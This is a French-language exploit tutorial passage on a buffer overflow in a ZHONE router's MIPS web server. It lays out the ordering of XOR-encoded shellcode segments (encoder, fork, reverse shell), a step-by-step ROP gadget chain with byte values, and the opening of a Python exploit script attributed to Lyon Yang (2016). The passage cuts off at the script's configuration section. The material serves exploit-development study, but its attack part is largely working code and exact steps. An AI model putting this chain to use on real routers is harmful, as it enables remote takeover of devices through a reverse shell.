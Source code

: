 6\. Assemblage du Shellcode Final

```python
sc = sc_encode      # 1. L'encodeur (s'exécute en premier)
sc += sc_fork1      # 2. Début du fork()
sc += sc_fork_bad   # 3. Données encodées à décoder
sc += sc_fork2      # 4. Fin du fork()
sc += sc_first      # 5. Début reverse shell
sc += sc_bad1       # 6. 1ère donnée encodée
sc += sc_mid        # 7. Milieu reverse shell  
sc += sc_bad2       # 8. 2ème donnée encodée
sc += sc_last       # 9. Fin reverse shell
```

7\. Séquence d'Exécution sur le Routeur

#### Ordre chronologique :

1. **Buffer Overflow** → Registres écrasés
2. **1er ROP Gadget** (`ra`) → Met `$a0 = 1`
3. **2ème ROP Gadget** (`$s3`) → Appelle `sleep(1)`
4. **Sleep** → Vide les caches (cache coherency)
5. **3ème ROP Gadget** → Calcule adresse pile
6. **4ème ROP Gadget** → Saute vers `sc_encode`
7. **Encodeur s'exécute** :
   * Localise `sc_fork_bad` à `$sp+256` (approximativement)
   * XOR `\x87\xb9\x66\x65` → `\x1E\x20\xFF\xFC`
   * Localise `sc_bad1` et le décode
   * Localise `sc_bad2` et le décode
8. **Fork()** s'exécute avec les vraies instructions
9. **Reverse shell** s'exécute avec les vraies instructions

8\. Calcul Précis des Positions

```python
# L'encodeur sait où chercher car :
# 1. Il connaît sa position sur la pile ($sp)
# 2. Il calcule des offsets fixes :
#    - sc_fork_bad est à +X octets de sc_encode
#    - sc_bad1 est à +Y octets de sc_encode  
#    - sc_bad2 est à +Z octets de sc_encode

# Les offsets sont calculés à la compilation :
# Position = adresse_base + offset_connu
```

{% code fullWidth="true" %}
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
"""
Exploit Buffer Overflow MIPS - Routeur ZHONE
Auteur: Lyon Yang (2016) - Adapté avec commentaires détaillés

Ce script exploite une vulnérabilité de buffer overflow dans le serveur web
d'un routeur ZHONE utilisant l'architecture MIPS.
"""

import socket
import sys
import struct
import urlparse
import re
import os

# =============================================================================
# CONFIGURATION DE BASE
```